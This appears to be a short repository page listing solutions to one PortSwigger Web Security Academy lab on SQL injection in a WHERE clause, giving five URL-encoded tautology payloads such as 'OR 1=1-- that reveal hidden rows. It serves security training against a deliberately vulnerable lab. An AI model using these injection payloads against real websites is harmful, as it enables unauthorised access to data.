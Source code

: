 # SQL-injection
# Port Swigger SQL injection Lab Solutions <tag>

**Retrieving hidden data**

[1.Lab: SQL injection vulnerability in WHERE clause allowing retrieval of hidden data](https://portswigger.net/web-security/sql-injection/lab-retrieve-hidden-data)


1. Solutions
   1. `'+OR+1=1--`
   1. `'OR+'1'='1--`
   1. `'OR+'1'='1'--`
   1. `'OR+true--`
   1. `'OR+'a'='a'--`
   
  

